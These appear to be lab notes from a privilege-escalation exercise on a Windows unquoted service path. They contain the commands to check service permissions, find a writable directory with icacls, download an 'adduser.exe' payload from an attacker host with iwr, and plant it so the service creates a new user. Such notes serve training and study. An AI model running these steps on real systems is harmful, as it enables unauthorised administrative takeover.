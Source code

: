 Using Start-Service and Stop-Service to check if user steve has permissions to start and stop GammaService

`Start-Service GammaService`

`Stop-Service GammaService`

He does have permissions.

How Windows tries to locate the correct path of the unquoted service _GammaService_

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

Let's check our access rights in these paths with **icacls**

`icacls "C:\"`

Result: we can't write to this directory

```
NT AUTHORITY\Authenticated Users:(OI)(CI)(IO)(M)
NT AUTHORITY\Authenticated Users:(AD)
```

`icacls "C:\Program Files"`

Result: we can't write to this directory either 

```
BUILTIN\Users:(RX)
BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
```

`icacls "C:\Program Files\Enterprise Apps"`

Result: we can write to this directory

```
BUILTIN\Users:(OI)(CI)(RX,W)
```

Re-using `adduser.exe` binary from "Service Binary Hijacking"

Start #pythonhttpserver 

Download `adduser.exe` as `Current.exe` to super cede `Current Version` folder

`iwr -uri http://192.168.48.3/adduser.exe -Outfile Current.exe`

Place into Enterprise Apps directory 

`copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'`

Start the service

`Start-Service GammaService`

Check to see if new user was added (he was!)
